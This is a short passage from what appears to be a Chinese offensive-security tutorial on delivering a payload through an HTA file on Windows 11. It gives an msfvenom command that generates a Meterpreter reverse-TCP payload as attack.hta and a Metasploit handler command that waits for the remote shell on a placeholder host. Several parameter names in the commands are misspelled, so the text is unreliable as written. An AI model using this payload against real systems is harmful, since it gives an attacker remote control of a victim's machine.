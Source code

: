![Windows11 Edge hta 下载存在打开按钮.png](assets/1708583756-b567117e394bbc3589cd94d19870b050.png)

这里以 Windows 11 上 Edge 为例，点击打开会有警告提示。

![Windows11 运行 hta 警告.png](assets/1708583756-6141296cbba3278e0216f6e471c7b31e.png)

2.HTA 反弹 MSF

msfvenom 生成 HTA 文件。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhos=<Host> loport=<Port> -f htfa-psh -o attack.hta
```

msf 监听即可。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

